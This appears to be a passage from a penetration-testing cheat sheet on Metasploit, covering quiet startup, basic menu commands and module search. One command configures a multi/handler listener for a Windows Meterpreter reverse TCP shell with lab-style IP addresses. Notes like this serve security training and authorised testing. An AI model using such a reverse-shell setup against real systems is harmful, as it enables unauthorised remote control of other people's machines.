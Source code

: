

# Exploitation Frameworks

## Metasploit

### Quick Startup

To start Metasploit without the banner (Quick start)

```bash
sudo msfconsole -q
```

You can also supply parameters to MSF from the CLI to quickly populate options:

```bash
sudo msfconsole -x "use exploit/multi/handler; set RHOST 192.168.153.10; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.119.153; set LPORT 4444; exploit"
```

### Menu Basic Commands

```bash
# Help menu - shows various categories and options
show -h

# Activate a module & change prompt to show active module
use MODULE_PATH_NAME

# Exit out of the current context
previous

# Return to the main prompt
back

# Change default interface used for LHOST (doesn't work for me)
setg interface tun0
```

### Modules

#### Selecting Modules

From main prompt:

```bash
# Show all modules of a certain type (exploit, auxiliary, etc)
show TYPE

# Search for modules
search OPTIONS
# Options
-h		# Show help menu
type:	# Filter by module type (exploit, auxiliary, etc)
name:	# Filter by descriptive name
```
